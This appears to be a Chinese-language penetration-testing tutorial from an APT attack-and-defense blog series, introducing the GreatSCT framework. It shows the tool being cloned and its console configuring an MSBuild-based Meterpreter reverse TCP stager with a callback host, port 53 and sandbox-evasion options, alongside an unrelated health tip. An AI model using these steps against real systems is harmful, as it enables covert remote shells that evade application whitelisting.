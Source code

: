 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

工具介绍：
https://github.com/GreatSCT/GreatSCT

**简介：**

GreatSCT是以metasploit payload为核心，白名单辅助payload执行框架。
```bash
root@John:~# git clone https://github.com/GreatSCT/GreatSCT.git
Cloning into 'GreatSCT'...
remote: Enumerating objects: 727, done.
remote: Total 727 (delta 0), reused 0 (delta 0), pack‐reused 727
Receiving objects: 100% (727/727), 10.64 MiB | 572.00 KiB/s, done.
Resolving deltas: 100% (384/384), done.
```
![](media/4b7b7364cadb4717086ebb5019db21cd.jpg)

![](media/3e2f95599ea725fbaf324c19d0844ac7.jpg)

![](media/9e50f5e8220ad366afb664445e12f567.jpg)

![](media/60d66478b636b2723607a4b90056e4a8.jpg)

```bash
===========================================================================

Great Scott!
===========================================================================

[Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker

===========================================================================

Payload information: 

Name: Pure MSBuild C# Reverse TCP Stager

Language: msbuild

Rating: Excellent

Description: pure windows/meterpreter/reverse_tcp stager, no
shellcode 

Payload: msbuild/meterpreter/rev_tcp selected 

Required Options: 

Name Value Description
‐‐‐‐ ‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐

DOMAIN X Optional: Required internal domain

EXPIRE_PAYLOAD X Optional: Payloads expire after "Y" days

HOSTNAME X Optional: Required system hostname

INJECT_METHOD Virtual Virtual or Heap

LHOST IP of the Metasploit handler

LPORT 4444 Port of the Metasploit handler

PROCESSORS X Optional: Minimum number of processors

SLEEP X Optional: Sleep "Y" seconds, check if accelerated

TIMEZONE X Optional: Check to validate not in UTC

USERNAME X Optional: The required user account

Available Commands: 

back Go back

exit Completely exit GreatSCT

generate Generate the payload

options Show the shellcode's options

set Set shellcode option 

[msbuild/meterpreter/rev_tcp>>] set LHOST 192.168.1.4 41

[msbuild/meterpreter/rev_tcp>>] set LPORT 53 
```
>   Micropoor
